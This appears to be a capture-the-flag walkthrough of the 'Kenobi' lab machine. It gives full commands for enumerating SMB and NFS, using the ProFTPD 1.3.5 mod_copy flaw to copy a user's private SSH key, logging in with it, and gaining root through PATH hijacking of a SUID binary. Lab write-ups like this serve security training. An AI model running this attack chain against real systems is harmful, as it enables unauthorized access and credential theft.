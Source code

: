 # Kenobi

- `nmap -sC -sV -oN nmap/initial 10.10.37.78` run nmap to find smb server running on 445
- `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.37.78`  this command to find the number of shares in the smb
- `smbclient //10.10.37.78/anonymous` use this to connect to the samba share
- `smbget -R smb://10.10.37.78/anonymous` using this we can recursively download the samba share
- FTP and ssh logs found in the samba share file
- Earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.
- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.37.78`
- Use netcat to connect to the FTP server `nc 10.10.37.78 21`
- Proftpd 1.3.5 is running on the ftp port.
- Use `searchsploit proftpd 1.3.5` to find the exploits from exploit-db.com
- found an exploit from ProFtpd's mod_copy module. 
- The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
- We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 
- We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
```
nc 10.10.37.78 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.37.78]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
- Mount the `/var/tmp` directory
```
mkdir /mnt/kenobiNFS
mount 10.10.37.78:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
- Copy the ssh private key `cp /mnt/kenobi/tmp/id_rsa . `
- ssh as kenobi `ssh -i id_rsa kenobi@10.10.37.78`
- Find the files with suid bit set to escalate privileges `find / -perm -u=s -type f 2>/dev/null`
- Found a binary `/usr/bin/menu`
- This doesnot use any absolute paths, all the paths are getting executed from PATH variable, so we will overwrite the path variable.
```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

// Enter 1 in the menu to execute /bin/sh
```